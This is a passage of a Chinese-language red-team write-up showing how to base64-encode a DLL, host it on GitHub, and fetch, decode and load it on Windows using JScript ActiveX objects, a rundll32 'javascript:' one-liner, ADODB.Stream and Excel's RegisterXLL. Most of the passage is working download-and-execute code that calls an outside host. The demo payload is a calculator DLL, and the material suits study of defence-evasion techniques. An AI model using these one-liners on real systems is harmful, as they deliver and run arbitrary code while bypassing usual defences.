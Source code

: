 **解决方法：**

将二进制文件作base64编码并保存成文本文件，再通过Scripting.FileSystemObject保存


对calc.dll作base64编码并保存至文件buffer.txt,对应powershell代码如下：

```
$fileContent = [System.IO.File]::ReadAllBytes('calc.dll')
$fileContentEncoded = [System.Convert]::ToBase64String($fileContent)| set-content ("buffer.txt") 
```

**注：**

读取二进制文件，不能使用命令Get-content

将buffer.txt上传至github

下载base64并保存文件对应的js代码如下：

```
h=new ActiveXObject("WinHttp.WinHttpRequest.5.1");
h.Open("GET","https://raw.githubusercontent.com/3gstudent/test/master/calcbase64.txt",false);
h.Send();
fso1=new ActiveXObject("Scripting.FileSystemObject");
f=fso1.CreateTextFile("c:\\test\\1.txt",true);
f.WriteLine(h.ResponseText);
f.Close();
```

下载base64并保存文件对应rundll32的代码如下：

`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","https://raw.githubusercontent.com/3gstudent/test/master/calcbase64.txt",false);h.Send();s=new%20ActiveXObject("Scripting.FileSystemObject");f=s.CreateTextFile("c:\\test\\1.txt",true);f.WriteLine(h.ResponseText);f.Close();`

文件保存成功，该文件存储base64加密后的calc.dll

base64解密该文件并加载dll对应的js代码如下：

```
x="c:\\test\\calc.dll";
h=new ActiveXObject("WinHttp.WinHttpRequest.5.1");
h.Open("GET","https://raw.githubusercontent.com/3gstudent/test/master/calcbase64.txt",false);
h.Send();
var enc = new ActiveXObject("System.Text.ASCIIEncoding");
var length = enc.GetByteCount_2(h.ResponseText);
var ba = enc.GetBytes_4(h.ResponseText);
var transform = new ActiveXObject("System.Security.Cryptography.FromBase64Transform");
ba = transform.TransformFinalBlock(ba, 0, length);
s=new ActiveXObject("ADODB.Stream");
s.Type=1;
s.Open();
s.Write(ba);	
s.SaveToFile(x,2);
new ActiveXObject("Excel.Application").RegisterXLL(x);
```
